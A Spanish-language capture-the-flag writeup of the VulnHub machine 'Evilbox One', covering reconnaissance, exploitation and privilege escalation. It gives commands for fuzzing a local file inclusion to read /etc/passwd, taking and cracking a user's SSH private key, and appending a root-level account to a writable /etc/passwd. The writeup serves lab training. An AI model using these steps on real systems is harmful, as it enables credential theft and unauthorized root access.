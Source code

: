 ```yaml
---
title: Evilbox One
date: 2024-07-13
categories: [WRITEUPS, VulnHub]
tags: [lfi]  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

El primer paso es realizar un escaneo de puertos con NMAP, para comprobar que puertos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.156 -n -Pn -v
```

![picture](/assets/images/vulnhub/evilbox1.png){: w="600" h="300" }

A continuación, nos vamos al navegador para ver de que se trata la página web, y comprobamos que se trata de una página por defecto de Apache2.

![picture](/assets/images/vulnhub/evilbox2.png)

Vamos a realizar **Fuzzing** con **Gobuster**, para ver si encontramos rutas y archivos que no podamos ver desde un primer momento.

```bash
gobuster dir -u http://192.168.1.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

![picture](/assets/images/vulnhub/evilbox3.png)

Dentro del archivo "*robots.txt*" encontramos un comentario.

![picture](/assets/images/vulnhub/evilbox4.png)

Dentro de la ruta "*/secret*" encontrada no hay contenido, así que volvemos a realizar **Fuzzing** añadiendo la ruta entera.

```bash
gobuster dir -u http://192.168.1.156/secret -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

Y encontramos un archivo llamado "***evil.php***".

![picture](/assets/images/vulnhub/evilbox5.png)

----

## **Explotación**

A continuación, vamos a intentar explotar un **LFI** (*Local File Inclusion*), que es la capacidad de poder leer archivos internos de la máquina.

Para ello realizaremos un *ataque de diccionario* para intentar encontrar algún parámetro por el cual podamos leer el archivo "*/etc/passwd*".

Utilizaremos la herramienta **FFUF**, escrita en **Go**, y para indicarle donde queremos que pruebe el diccionario, escribiremos el parámetro **FUZZ** como se puede ver en el comando.

```bash
wfuzz -c --hc=404,403 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 'http://192.168.1.156/secret/evil.php?FUZZ=/etc/passwd'
```

![picture](/assets/images/vulnhub/evilbox6.png)

Y encontramos el parámetro "***command***". 

Podemos listar archivos locales de la máquina, aunque no podemos ejecutar comandos.

![picture](/assets/images/vulnhub/evilbox7.png){: w="600" h="300" }

Intentando mostrar la **clave privada** de **SSH** (*id_rsa*) del usuario **mowree**, compruebo que tenemos permisos de lectura. Así que la idea es copiarla y acceder a la máquina con la clave privada.

![picture](/assets/images/vulnhub/evilbox8.png){: w="600" h="300" }

Una vez la clave copiada y traída a nuestra máquina local, creando un archivo llamado "**id_rsa**" con permisos 600, intentamos acceder mediante **SSH**, pero me pide una contraseña, así que lo siguiente será intentar crackear la contraseña con **John The Ripper**.

![picture](/assets/images/vulnhub/evilbox9.png){: w="600" h="300" }

Para ello convertiremos el formato del archivo a uno que **John The Ripper** pueda entender utilizando la herramienta **ssh2john**.

```bash
ssh2john id_rsa > hash.txt
```
Una vez el archivo convertido, ejecutamos **John The Ripper**, y nos encuentra la contraseña con el diccionario **rockyou**.

![picture](/assets/images/vulnhub/evilbox10.png){: w="600" h="300" }

Accedemos mediante **SSH** y la clave.

```bash
ssh -i id_rsa mowree@192.168.1.156
```

Y estamos dentro de la máquina siendo el usuario **mowree**.

![picture](/assets/images/vulnhub/evilbox11.png){: w="600" h="300" }

Dentro de su directorio personal, encontramos la primera **flag**.

![picture](/assets/images/vulnhub/evilbox12.png)

---

## **Escalada de privilegios**

Listando los permisos del archivo *"/etc/passwd"* podemos comprobar que tenemos permisos de escritura.

![picture](/assets/images/vulnhub/evilbox13.png)

La idea para escalar máximos privilegios, será añadir un usuario nuevo con la bash de **root**.

Para ello generaremos una contraseña cifrada.

```bash
openssl passwd -1 -salt xyz password
```

![picture](/assets/images/vulnhub/evilbox20.png)

Y a continuación, añadiremos el usuario al /etc/passwd.

```bash
echo  'pwned:$1$xyz$QeYhJjMn0Cz1qxjZ5Pl4q1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

![picture](/assets/images/vulnhub/evilbox14.png){: w="600" h="300" }

Migramos al usuario **pwned**, y nos devuelve la bash como **root**, y en la carpeta personal, podemos leer la segunda **flag**.

![picture](/assets/images/vulnhub/evilbox15.png){: w="600" h="300" }
